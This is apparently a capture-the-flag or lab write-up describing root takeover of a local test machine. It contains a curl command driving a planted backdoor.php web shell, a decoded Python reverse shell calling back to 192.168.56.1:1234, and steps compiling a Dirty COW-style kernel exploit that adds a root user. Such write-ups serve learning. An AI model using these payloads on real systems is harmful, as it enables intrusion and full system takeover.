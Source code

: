 # writeup 2

We have to do in the same way as in **writeup1** until using **curl** tool))

After doing that we have an incredible way to get the control of the root

**BACKDOOR**

A "backdoor" in the context of computing refers to a hidden method for bypassing normal authentication or security controls, it allows unauthorized access to systems, applications, or networks, often without being detected

Do not be scared, everything is done for educational purposes)

<img src="img/photo_5435923932709510476_y.jpg">

here is the encrepted code of it 

```
curl --insecure 'https://192.168.56.101/forum/templates_c/backdoor.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%2Cpty%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.56.1%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dpty.spawn%28%22%2Fbin%2Fbash%22%29%3B%27'
```

Don't be scared 2, this is just an url encode python code of this

```
import socket, subprocess, os, pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.56.1",1234));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=pty.spawn("/bin/bash");
```

You can simply write on your own code then just seach on Google **url encoder** and translate to this

We have done this to get a reverse shell and execute cmd on server,

So, now we need some kind of kernel exploit to have a root

On this picture you can see cmds and potential issues.

<img src="img/photo_5435923932709510484_y.jpg">

If you see exact same thing, Congratulations!!!🥳 you also got an error🆘😅
This shows that curl did not work properly -> to fix it do this

```
cat > dirty.c << end
# and we gonna copy code here
```

<img src="img/photo_5435923932709510485_y.jpg">

Then we commpiled it via this and run

```
gcc dirty.c -o dirty -pthread -lcrypt
./dirty.c
```
we entered the new password

AAAAANNNNNNDDDDDD that's it we have done it🚨
Check **/etc/passwd** to see if the new user was created.
You can log in with the username 'firefart' and the password 'gago'
